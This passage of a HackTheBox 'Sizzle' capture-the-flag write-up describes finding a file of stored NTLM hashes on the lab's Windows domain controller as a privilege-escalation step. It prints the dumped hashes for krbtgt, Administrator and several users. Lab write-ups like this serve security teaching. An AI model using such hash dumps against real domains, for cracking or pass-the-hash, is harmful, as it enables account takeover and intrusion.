 ![](/images/hackthebox/sizzle/26.png)
<hr>
### Stored NTLM Hashes, Secretsdump, Privilege Escalation
#### Through the filesystem enumeration I found a file called `file.txt` in `C:\Windows\System32`. That file had NTLM hashes for all users ! 
![](/images/hackthebox/sizzle/27.png)
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::

Domain    User  ID  Hash
------    ----  --  ----
HTB.LOCAL Guest 501 -   
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrb3n:1105:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
```